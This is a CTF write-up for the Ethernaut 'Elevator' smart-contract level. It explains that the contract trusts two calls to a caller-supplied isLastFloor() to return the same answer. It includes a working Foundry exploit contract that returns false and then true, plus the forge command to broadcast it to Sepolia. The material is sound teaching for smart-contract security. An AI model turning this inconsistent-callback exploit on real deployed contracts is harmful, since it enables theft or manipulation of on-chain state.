 ```yaml
---
title: 'Elevator - The Ethernaut'
cover: https://ethernaut.openzeppelin.com/imgs/Level11.svg
categories: ["ctf"]
tags: ["blockchain","ethernaut"]
date: 2025-09-19
lastmod: 2025-09-19
---
```


## Challenge Overview

This level involves an Elevator contract that uses an external Building interface to determine if a floor is the top floor. The goal is to reach the top of the building by manipulating the return values of the `isLastFloor()` function to bypass the contract's logic.

---

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

---

## Exploit Explanation

The vulnerability exists because the `goTo()` function calls the external `isLastFloor()` function **twice** and assumes it will return consistent results:

```solidity
function goTo(uint256 _floor) public {
    Building building = Building(msg.sender);

    if (!building.isLastFloor(_floor)) {  // First call
        floor = _floor;
        top = building.isLastFloor(floor);  // Second call
    }
}
```

Since we control the `Building` implementation, we can return different values for each call:
1. **First call**: Return `false` to pass the `if` condition and enter the block
2. **Second call**: Return `true` to set `top = true`

This allows us to bypass the intended logic and reach the top floor regardless of the actual floor number.

---

## Exploit Script

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/Elevator.sol";

contract EvilBuilding {
    bool private evilSwitch;
    Elevator public elevatorInstance = Elevator(<YOUR_INSTANCE>);

    function attack() public {
        // Trigger the goTo() function with any floor number
        elevatorInstance.goTo(999);
    }

    function isLastFloor(uint256 _floor) external returns (bool) {
        // First call: return false to pass the if condition
        if(!evilSwitch){
            evilSwitch = true;
            return false;
        } else {
            // Second call: return true to set top = true
            return true;
        }
    }
}

contract ElevatorSolution is Script {
    
    function run() public {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        
        // Deploy the malicious Building contract
        EvilBuilding evil = new EvilBuilding();
        
        // Execute the attack
        evil.attack();
        
        vm.stopBroadcast();
    }
}
```

---

## Proof of Concept (PoC)

Execute the exploit with Foundry:

```bash
forge script script/ElevatorSolution.s.sol --rpc-url $SEPOLIA_URL --tc ElevatorSolution --broadcast
```